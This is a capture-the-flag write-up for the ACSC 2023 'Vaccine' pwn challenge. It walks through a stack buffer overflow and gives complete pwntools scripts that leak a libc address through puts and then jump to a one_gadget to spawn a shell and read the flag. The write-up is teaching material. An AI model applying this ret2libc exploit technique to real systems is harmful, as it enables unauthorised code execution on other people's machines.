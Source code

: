 # ACSC 2023
## Vaccine

## Information
**Category** | **Points** | **Writeup Author**
--- | --- | ---
PWN | 50 | Onirique

**Description:** 
Give me the correct vaccine to view my secret

nc vaccine.chal.ctf.acsc.asia 1337

nc vaccine-2.chal.ctf.acsc.asia 1337 (Backup)

## Solution
We first need to build a docker from the Dockerfile to get the right version of libc for our binary. We can simply achieve this by 2 commands:

```sh
$ sudo docker build -f Dockerfile -t ctfchall .
$ sudo docker run -it --rm ctfchall
```

Simply copy the binary file to the docker to see which libc version is used and then copy the libc back to the original directory.

Now let’s analyse the program. Notice that there’s only the main() function.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // rbx
  char v5[112]; // [rsp+10h] [rbp-170h] BYREF
  char s2[112]; // [rsp+80h] [rbp-100h] BYREF
  char s[104]; // [rsp+F0h] [rbp-90h] BYREF
  FILE *v8; // [rsp+158h] [rbp-28h]
  FILE *stream; // [rsp+160h] [rbp-20h]
  int i; // [rsp+16Ch] [rbp-14h]

  stream = fopen("RNA.txt", "r");
  fgets(s, 100, stream);
  printf("Give me vaccine: ");
  fflush(_bss_start);
  __isoc99_scanf("%s", s2);
  for ( i = 0; ; ++i )
  {
    v3 = i;
    if ( v3 >= strlen(s2) )
      break;
    if ( s2[i] != 65 && s2[i] != 67 && s2[i] != 71 && s2[i] != 84 )
    {
      puts("Only DNA codes allowed!");
      exit(0);
    }
  }
  if ( strcmp(s, s2) )
  {
    puts("Oops.. Try again later");
    exit(0);
  }
  puts("Congrats! You give the correct vaccine!");
  v8 = fopen("secret.txt", "r");
  fgets(v5, 100, v8);
  printf("Here is your reward: %s\n", v5);
  return 0;
}
```

It’s a simple buffer overflow exploit. To bypass the strcmp() we only need to input a bunch of NULL char (0x00). The real problem is that we know that the ‘secret.txt’ file doesn’t contain the flag.

We can either find a way to rewrite the ‘secret.txt’ to ‘flag.txt’, or simply just take control of the shell by ret2libc technique since we already have the right libc version.

Using some simple maneuvers, we know that the offset from our buffer to the return address of main is 264 bytes. Now we just need a payload to leak a libc address. For this I chose the puts() function.

At first our payload will look like this:

```py
from pwn import *

exe = ELF('./vaccine')
libc = ELF('./libc-2.31.so')

#io = remote('vaccine.chal.ctf.acsc.asia', 1337)
io = exe.process()
#gdb.attach(io, api=True)
#context.log_level = 'debug'

# Gadgets:
puts = 0x0000000000084420 # Offset that we took from the libc
pop_rdi = 0x0000000000401443
ret = 0x000000000040101a
main = 0x0000000000401236

# Leaking libc
io.recvuntil(b'vaccine:')
payload = b'\0'*264
payload += p64(pop_rdi) + p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(main)
io.sendline(payload)
print(io.recvuntil(b' reward: '))
print(io.recvuntil(b'\n'))
leak_puts = int.from_bytes(io.recvline(keepends=False), byteorder='little')
print(hex(leak_puts))
libc.address = leak_puts - puts
print(f'Libc base: {hex(libc.address)}')
```

We need to return back to the main() function so that we can once again exploit the buffer overflow.

Now that we know the libc base address. We can now easily take control of the shell. The one_gadget tool provide us a very useful offset:

```sh
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
[rdx] == NULL || rdx == NULL
```

By testing all 3 we know that only 0xe3b01 works. Now we can place all the pieces together and our exploit script will look like this:

```py
from pwn import *

exe = ELF('./vaccine')
libc = ELF('./libc-2.31.so')

#io = remote('vaccine.chal.ctf.acsc.asia', 1337)
io = exe.process()
#gdb.attach(io, api=True)
#context.log_level = 'debug'

# Gadgets:
puts = 0x0000000000084420 # Offset that we took from the libc
pop_rdi = 0x0000000000401443
ret = 0x000000000040101a
main = 0x0000000000401236

# Leaking libc
io.recvuntil(b'vaccine:')
payload = b'\0'*264
payload += p64(pop_rdi) + p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(main)
io.sendline(payload)
print(io.recvuntil(b' reward: '))
print(io.recvuntil(b'\n'))
leak_puts = int.from_bytes(io.recvline(keepends=False), byteorder='little')
print(hex(leak_puts))
libc.address = leak_puts - puts
print(f'Libc base: {hex(libc.address)}')

one_gadget = 0xe3b01
payload = b'\0'*264
payload += p64(libc.address + one_gadget)
io.sendline(payload)
time.sleep(0.5)
io.sendline(b'cat flag.txt')
io.interactive()
```

Run the script and we will get:

```sh
[*] '/mnt/d/ctf/pwn/acsc/vaccine/bin/vaccine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
[*] '/mnt/d/ctf/pwn/acsc/vaccine/bin/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to vaccine.chal.ctf.acsc.asia on port 1337: Done
b' Congrats! You give the correct vaccine!\nHere is your reward: '
b'your flag is in another castle\n'
0x7f62767bf420
Libc base: 0x7f627673b000
[*] Switching to interactive mode
Give me vaccine: ACSC{RoP_3@zy_Pe4$y}
```

> Flag is: ACSC{RoP_3@zy_Pe4$y}
